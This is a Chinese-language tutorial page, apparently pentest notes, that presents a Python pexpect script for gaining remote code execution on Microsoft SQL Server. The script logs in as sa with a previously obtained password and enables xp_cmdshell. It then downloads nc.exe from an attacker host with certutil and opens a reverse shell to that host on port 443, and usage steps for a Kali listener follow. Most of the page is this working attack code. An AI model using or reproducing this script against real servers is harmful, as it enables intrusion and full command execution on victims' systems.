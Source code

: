 ```yaml
---
description: Python / Microsoft SQL Server / xp_cmdshell / netcat
---
```


# ✔️ 编写 SQL Server 漏洞利用程序进行 RCE

## 脚本

* 连接到远程MSSQL数据库并启用`xp_cmdshell`，然后通过上传和执行Netcat二进制文件在目标系统上创建一个反向Shell：

<pre class="language-python"><code class="lang-python">import pexpect
import time

def enable_cmdshell():
    child.sendline("sp_configure 'show advanced options', '1'")
    print("Enabling xp_cmdshell")
    child.expect(confirmation)
    child.sendline("RECONFIGURE")
    child.sendline("sp_configure 'xp_cmdshell','1'")
    child.expect(confirmation)
    child.sendline("RECONFIGURE")
    spawn_shell()
<strong>
</strong>def spawn_shell():
    print("Upload netcat binary...")
# 按实际情况修改为攻方IP地址
    child.sendline("EXEC master..xp_cmdshell 'certutil -urlcache -split -f http://192.169.xx.xxx/nc.exe C:/users/public/nc.exe'")   
    print("Spawning shell...")
 # 按实际情况修改为攻方IP地址
    child.sendline("EXEC master..xp_cmdshell 'C:/users/public/nc.exe 192.168.xx.xxx 443 -e cmd.exe'")    
    time.sleep(5)
    print("Closing...")
    child.close()
<strong>
</strong>def connect():
    print("Connecting to remote MSSQL DB...")
    child.expect(pass_prompt)
# 要修改，发送密码
    child.sendline('已获取到的密码')        
    print("Logging in...")
    child.expect(sql_prompt)
    print("Success!")


if __name__ == '__main__':
    sql_prompt = "SQL>"
    confirmation = "to install\."
    pass_prompt = "Password:"
# 按实际目标系统的IP地址修改
    command = "impacket-mssqlclient sa@192.168.xx.xxx"   
    child = pexpect.spawn(command)
    connect()
    enable_cmdshell()
    spawn_shell()

</code></pre>

## 用法

1. Kali主机上监听443端口
2. kali主机上找到存储nc.exe的目录，并在此目录下开启Python服务器
3. kali主机上直接运行该脚本，执行成功会在监听443端口的窗口出现反弹shell

{% hint style="info" %}
* 该脚本所有操作均在攻方的Kali主机上完成，但是利用该脚本的先决条件是已拥有了目标系统中内置账户sa的密码。
* 空服务账户没有对C:\Windows\system32目录的写入权限，但是对C:/users/public有写入权限。
{% endhint %}

